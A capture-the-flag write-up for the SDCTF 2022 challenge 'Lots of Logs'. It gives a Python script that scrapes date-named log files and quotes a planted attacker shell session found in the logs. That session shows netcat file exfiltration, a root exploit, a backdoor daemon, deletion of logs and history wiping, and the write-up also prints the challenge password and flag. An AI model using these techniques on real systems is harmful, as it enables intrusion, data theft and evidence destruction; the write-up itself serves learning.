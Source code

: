 # Lots of Logs

```
score: 175
solved: xx/xx
difficulty: easy
tags: web
```

## Problem

As a professional logger, I made an extensive logger that logs all of the logs I log to the blog I blog so that no log goes unlogged. I post some logs to the log catalog on my log blog.
Website
https://logs.sdc.tf/

https://github.com/acmucsd/sdctf-2022/tree/main/web/easy%20-%20lots%20of%20logs

## Got the flag

Go to https://logs.sdc.tf, read https://logs.sdc.tf/js/index.js (after formatting), we know that logs are named after their date.

Going back from 2021-7-31 and forward from 2022-3-9 every one day, we know that logs are created from 2016-10-29 to 2022-4-20

Write a python script to get and merge all logs into one (it won't be too large to read):
```python
from datetime import date, timedelta
days_of_week = ['Mon', 'Tue', 'Wed', 'Thu', 'Fri', 'Sat', 'Sun']
start_date = date(2016, 10, 29)
end_date = date(2022, 4, 20)
duration = end_date - start_date
for i in range(duration.days):
    d = start_date + timedelta(days=i)
    url = f"https://logs.sdc.tf/logs/{d.year}/{d.month}/{d.day}/{days_of_week[d.weekday()]}.log"
    print(i, url)
    r = requests.get(url)
    if r.status_code == 200:
        with open("all_logs.log", "a") as f:
            f.write(r.text)
```

Then, search the logs for any sign (`sd` in `sdctf` or `{` if flag is already in logs), we get these lines on 2018-6-13, a day when logs are chopped incorrectly by pressing ^C:

```
Wed 06/13 12:18:35 LOG   : 11 logs logged!
Wed 06/13 12:19:16 LOG   : 5 logs logged!
Wed 06/13 12:20:13 LOG   : ^C

john@logger:~# nc -l 1337 > exploit
john@logger:~# chmod +x exploit
john@logger:~# ./exploit
# whoami
root
# ls
exploit  logs  site
# ls logs
2016  2017  2018
# tar -cf data.tar.gz ~/logs
tar: Removing leading `/' from member names
tar: /home/john/data.tar.gz: file is the archive; not dumped
# nc -l 1337 < data.tar.gz
# rm -rf /home/john/logs/2018/6/10 /home/john/logs/2018/6/11 /home/john/logs/2018/6/12
# rm data.tar.gz
# mkdir /lib/network
# nc -l 1337 > /lib/network/daemon
# chmod +x /lib/network/daemon
# /lib/network/daemon
Success... running on port 1338
# nc logger.sdc.tf 1338
Pass: 82d192aa35a6298997e9456cb3a0b5dd92e4d6411c56af2169bed167b53f38d
ls /home/john
exploit  logs  site
^C
# rm exploit
# echo "" > .bash_history
# echo "" > ~/.bash_history
# exit
john@logger:~# ./logger

Wed 06/13 12:55:03 START : ************************** STARTING LOGGING **************************

```

Just copy paste nc command and password, we get flag:
```
$ nc logger.sdc.tf 1338
Pass: 82d192aa35a6298997e9456cb3a0b5dd92e4d6411c56af2169bed167b53f38d
sdctf{b3tr4y3d_by_th3_l0gs_8a4dfd}
```
